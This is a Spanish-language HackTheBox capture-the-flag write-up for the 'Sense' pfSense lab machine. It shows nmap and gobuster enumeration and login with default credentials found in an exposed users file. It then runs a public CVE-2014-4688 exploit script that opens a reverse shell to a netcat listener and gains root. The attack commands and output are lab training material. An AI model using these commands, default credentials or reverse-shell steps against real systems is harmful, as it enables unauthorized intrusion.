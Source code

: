 ```yaml
---
layout : post
author: X4v1l0k
title: Sense Writeup [HTB]
date: 2020-11-09 01:14:00 +/- 0000
categories: [Machine-Writeup, HackTheBox]
tags: [Enumeracion,RCE]
headline: Sense is a beginner-friendly OpenBSD machine from Hackthebox, where we will enumerate files and directories and exploit an RCE that will grant us root.
image: https://www.hackthebox.eu/storage/avatars/a3d8bf97412b0b6247aac14695eff21c.png
---
```


Sense - 10.10.10.60
===
![](https://www.hackthebox.eu/storage/avatars/a3d8bf97412b0b6247aac14695eff21c.png)
###### tags: `HTB` `Easy` `FreeBSD`

# Enumeración
## Nmap

```bash
$ nmap -A -Pn -p- 10.10.10.60

Starting Nmap 7.80 ( https://nmap.org ) at 2020-11-08 23:58 CET
Nmap scan report for 10.10.10.60
Host is up (0.033s latency).
Not shown: 65533 filtered ports
PORT    STATE SERVICE    VERSION
80/tcp  open  http       lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Did not follow redirect to https://10.10.10.60/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
443/tcp open  ssl/https?
|_ssl-date: TLS randomness does not represent time
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: specialized
Running (JUST GUESSING): Comau embedded (92%)
Aggressive OS guesses: Comau C4G robot control unit (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops

TRACEROUTE (using port 443/tcp)
HOP RTT      ADDRESS
1   32.39 ms 10.10.14.1
2   32.50 ms 10.10.10.60

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 215.68 seconds
```

## Directorios

```bash
gobuster dir -u https://10.10.10.60/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,bak,tar,zip,html -k -t 50
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            https://10.10.10.60/
[+] Threads:        50
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,txt,bak,tar,zip,html
[+] Timeout:        10s
===============================================================
2020/11/09 00:35:40 Starting gobuster
===============================================================
/index.html (Status: 200)
/index.php (Status: 200)
/help.php (Status: 200)
/themes (Status: 301)
/stats.php (Status: 200)
/css (Status: 301)
/includes (Status: 301)
/edit.php (Status: 200)
/license.php (Status: 200)
/system.php (Status: 200)
/status.php (Status: 200)
/javascript (Status: 301)
/changelog.txt (Status: 200)
/classes (Status: 301)
/exec.php (Status: 200)
/widgets (Status: 301)
/graph.php (Status: 200)
/tree (Status: 301)
/wizard.php (Status: 200)
/shortcuts (Status: 301)
/pkg.php (Status: 200)
/installer (Status: 301)
/wizards (Status: 301)
/xmlrpc.php (Status: 200)
/reboot.php (Status: 200)
/interfaces.php (Status: 200)
/csrf (Status: 301)
/system-users.txt (Status: 200)
/filebrowser (Status: 301)
/%7Echeckout%7E (Status: 403)
===============================================================
2020/11/09 00:56:40 Finished
===============================================================
```

Dentro del archivo /system-users.txt encontramos que el usuario es "Rohit" y la contraseña pone que es "company defaults".

Tras multiples pruebas, he conseguido acceder usando como usuario "rohit" y "pfsense".

# Explotación

Tenemos varios CVE entre los que hay un RCE correspondiente al [CVE-2014-4688](https://www.exploit-db.com/exploits/43560)

Ponemos una terminal a la escucha y ejecutamos el exploit.

```bash
$ python3 exp.py --rhost 10.10.10.60 --lhost 10.10.14.35 --lport 8787 --username rohit --password pfsense
CSRF token obtained
Running exploit...
Exploit completed
```

```bash
$ nc -lnvp 8787
listening on [any] 8787 ...
connect to [10.10.14.35] from (UNKNOWN) [10.10.10.60] 27331
sh: can`t access tty; job control turned off
$ id
uid=0(root) gid=0(wheel) groups=0(wheel)
```

Bueno, pues tenemos root directamente... 🤷‍♂️